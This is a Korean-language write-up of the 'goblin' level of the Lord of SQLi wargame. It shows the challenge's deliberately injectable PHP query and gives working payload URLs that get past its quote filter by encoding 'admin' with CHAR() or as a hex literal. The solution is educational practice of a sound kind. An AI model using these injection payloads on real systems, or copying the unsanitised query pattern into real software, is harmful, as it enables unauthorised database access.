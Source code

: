 # Lord of SQLi - goblin

> query : select id from prob_goblin where id='guest' and no=  

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

- GET방식으로 파라미터를 전달하고 있다.
- URL로 전달할 수 있는 파라미터는 no 밖에 없다.
- 그러나 no는 싱글쿼터, 더블쿼터를 필터링하고 있다.  

> select id from prob_goblin where id='guest' and no=  
> 싱글쿼터를 필터링하고 있지만 no 컬럼에서 싱글쿼터를 사용하지 않기 때문에 싱글쿼터를 사용하지 않고 풀 수 있다.

- 우선 guest의 no가 몇번 인지 알기 위해서 번호를 아무거나 대입하다가 1이라는 것을 알아냈다.  
- 우리는 guest가 아닌 admin을 찾아내야 하기 때문에 id='guest' and no={} 이 부분을 거짓으로 만들고 admin을 select 해야 한다.  
- no에서 싱글쿼터를 사용하지 않기 때문에 그냥 mysql구문을 사용할 수 있다.
	> or id='admin'
- 위와 같이 사용할 수 있지만 싱글쿼터를 필터링하기 때문에 두가지 방법을 사용하여 우회할 것이다.

### 1.
- 문자열관련 함수인 char() 함수를 이용하여 푼다.

### 2.
- mysql은 아스키코드의 hex값을 인식하는 특성을 이용하여 0x 형식의 HEX 값을 이용한다.

### payload
> URL : http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=99%20or%20id=CHAR(97,100,109,105,110)  
or  
> URL : http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=99%20or%20id=0x61646d696e  



> query : select id from prob_goblin where id='guest' and no=99 or id=CHAR(97,100,109,105,110)  
or  
> query : select id from prob_goblin where id='guest' and no=99 or id=0x61646d696e
